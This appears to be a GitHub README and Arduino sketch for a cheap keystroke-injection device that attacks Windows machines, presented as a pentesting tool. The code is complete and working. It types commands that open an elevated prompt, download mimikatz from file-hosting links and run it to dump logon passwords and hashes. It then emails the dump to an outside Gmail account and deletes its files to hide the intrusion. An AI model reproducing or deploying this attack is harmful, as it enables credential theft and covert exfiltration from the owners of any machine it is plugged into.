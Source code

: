# Arduino mimikatz dump and report via email for windows-10
## Runs mimikatz locally from a portable arduino and emails you the report. The Budget Rubber Ducky.

mimikatz dumps the NTLM password hashes, system information and more, very useful for pentesting.

Tested on windows 10, 8, 7, *Vista* on both x64 and x86.

This script was optimised to run off portable arduino's such as the Arduino Pro Micro (really cheap at $3) but will also work on others.

#### Script run time: 5-10 seconds on an Arduino Pro Micro using the Arduino Leonardo chip
<img src="https://github.com/valkyrix/Arduino-mimikatz-dump-and-report-via-email-for-windows-10/raw/master/pro_micro.jpg" align="middle" height="600" width="600" >

Mimicats binaries have been hardcoded but they can be changed by replacing the two url's within the powershell command.

The script has been setup to communicate with the gmail smtp server but can be used with any email provider really.

Replace `EMAIL` and `PASSWORD` placeholders with your own.
Change the SMTP server and port information if you are not using gmail as the provider.

#### Script stages

- Launch elevated command prompt.
- Download the correct mimikatz exe based on processor type.
- Execute mimikatz and export data.
- Email the output to selected email address as an attachment using powershell's SMTP .
- Remove all traces on the system.

```Arduino
#include "Keyboard.h"

void typeKey(int key)
{
  Keyboard.press(key);
  delay(50);
  Keyboard.release(key);
}

/* Init function */
void setup()
{
  Keyboard.begin();
  delay(500);
  Keyboard.press(KEY_LEFT_CTRL);
  delay(200);
  Keyboard.press(KEY_ESC);
  delay(200);
  Keyboard.releaseAll();
  delay(200);
  Keyboard.print("cmd.exe");
  delay(200);
  Keyboard.releaseAll();
  delay(200);
  Keyboard.press(KEY_LEFT_CTRL);
  Keyboard.press(KEY_LEFT_SHIFT);
  Keyboard.press(KEY_RETURN);
  delay(200);
  Keyboard.releaseAll();

  delay(1000);

  // Download the correct exe based on processor type
  Keyboard.print("powershell if ([System.IntPtr]::Size -eq 4) { (new-object System.Net.WebClient).DownloadFile('https://1fichier.com/?cw5v9jryul','%TEMP%\\pw.exe');  }else{ (new-object System.Net.WebClient).DownloadFile('https://1fichier.com/?13f1u3iqc3','%TEMP%\\pw.exe');}");
  typeKey(KEY_RETURN);
  delay(1500);

  // execute and export output from mimikatz
  Keyboard.print("%TEMP%\\pw.exe > C:\\pwlog.txt & type C:\\pwlog.txt;");
  typeKey(KEY_RETURN);
  delay(100);
  Keyboard.print("privilege::debug");
  typeKey(KEY_RETURN);
  Keyboard.print("sekurlsa::logonPasswords full");
  typeKey(KEY_RETURN);
  Keyboard.print("exit");
  typeKey(KEY_RETURN);
  delay(300);
  Keyboard.print("del %TEMP%\\pw.exe");
  typeKey(KEY_RETURN);
  delay(300);

  // email log via gmail
  Keyboard.print("powershell -ExecutionPolicy ByPass");
  typeKey(KEY_RETURN);
  delay(300);
  Keyboard.print("$SMTPServer = 'smtp.gmail.com'");
  typeKey(KEY_RETURN);
  Keyboard.print("$SMTPInfo = New-Object Net.Mail.SmtpClient($SMTPServer, 587)");
  typeKey(KEY_RETURN);
  Keyboard.print("$SMTPInfo.EnableSsl = $true");
  typeKey(KEY_RETURN);
  Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('EMAIL', 'PASSWORD');");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail = New-Object System.Net.Mail.MailMessage");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.From = 'EMAIL'");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.To.Add('EMAIL')");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.Subject = 'Mimikatz report'");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.Body = 'script by Valkyrix.github.io'");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.Attachments.Add('C:\\pwlog.txt')");
  typeKey(KEY_RETURN);
  Keyboard.print("$SMTPInfo.Send($ReportEmail)");
  typeKey(KEY_RETURN);
  delay(7000);

  Keyboard.print("exit");

  typeKey(KEY_RETURN);

  // Cleanup and flee the scene.
  Keyboard.print("del C:\\pwlog.txt");
  typeKey(KEY_RETURN);
  delay(300);

  Keyboard.print("exit");
  typeKey(KEY_RETURN);
  Keyboard.end();
}

/* Unused endless loop */
void loop() {}
```


